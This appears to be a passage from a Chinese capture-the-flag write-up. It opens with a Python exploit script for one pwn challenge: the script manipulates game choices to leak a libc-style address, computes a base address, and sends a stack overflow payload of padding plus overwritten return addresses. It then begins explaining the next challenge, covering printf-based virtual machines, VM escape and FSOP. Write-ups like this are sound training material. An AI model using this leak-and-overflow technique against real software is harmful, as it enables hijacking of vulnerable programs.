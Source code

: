 ```py
rand_nums = '4 3 2 4 2 4 3 1 2 2 3 4 3 4 4 3 1 3 1 1 4 1 4 2 3 3 3 4 4 4 2 3 3 3 2 4 2 1 4 3 2 2 2 4 1 2 3 1 4 3 2 3 4 1 1 2 3 3 1 2 2 2 1 4 1 2 3 2 2 2 1 4 3 2 3 4 3 1 4 3 4 1 1 3 1 1 4 4 3 4 1 1 1 1 4 1 3 3 3 4 4 3 3 3 4 2 2 3 2 1 1 1 2 1 3 2 2 2 1 4 1 2 4 2 2 4 2 4 2 4 4 1 2 2 3 2 3 4 4 1 1 4 1 2 4 4 3 1 1 4 1 2 1 4 3 2 3 4 2 4 4 1 1 1 2 3 2 1 3 1 1 3 4 1 4 4 4 2 4 1 1 4 2 1 4 4 3 2 3 4 2 2 4 2 3 1 4 4 1 2 1 1 4 4 2 3 3 1 1 3 1 1 2 2 2 1 1 4 3 4 3 4 1 2 1 3 2 4 3 3 2 3 3 1 2 4 4 1 1 4 3 1 4 4 3 1 1 3 4 3 2 2 2 3 3 2 1 1 1 3 3 2 1 1 3 3 1 2 3 1 1 1 1 4 4 3 1 4 2 4 2 3 2 3 1 4 4 2 4'.split(' ')
rand_nums = [ int(i) for i in rand_nums ][::-1]

#------------- 填充整个 276 长度的 byte 数组 -------------
#------------- 并使当前计算的数字为 0x60，也就是 addr_virtfunc_exit 地址最后有一个字节为 0x60 -------------

for i in range(0, 92):
	cur_nums = rand_nums.pop()
	if cur_nums == 1: continue_game(2)
	if cur_nums == 2: continue_game(0)
	if cur_nums == 3: continue_game(1)
	if cur_nums == 4: continue_game(1)

flag = False
for i in range(92, 276):
	cur_nums = rand_nums.pop()
	if cur_nums == 1: continue_game(1)
	if cur_nums == 2: 
		if not flag:
			continue_game(1)
			flag = True
		else: continue_game(0)
	if cur_nums == 3: continue_game(1)
	if cur_nums == 4: continue_game(1)

data = show()
leak_addr = u64(data[-6:].ljust(8, b'\x00'))
base_addr = leak_addr - 0x4C60
exit()

#------------- 发送 payload -------------

payload	= b''
payload += b'a' * 0x20 + p64(base_addr + 0x5840) + p64(base_addr + 0x0000000000002516)

p.sendlineafter(b'favorite number.\n', payload)
p.interactive()
```

# [](#header-3)pwn prpr

这个题的难度比较大. 考了printf型虚拟机、虚拟机逃逸、FSOP

首先需要了解一下什么是 printf 型虚拟机:  
printf中可以自定义格式占位符（spec）的行为，就像使用%x可以输出一个数的十六进制一样，在使用 register_printf_function 后可以将指定spec与指定转换函数绑定，从而自定义输出行为
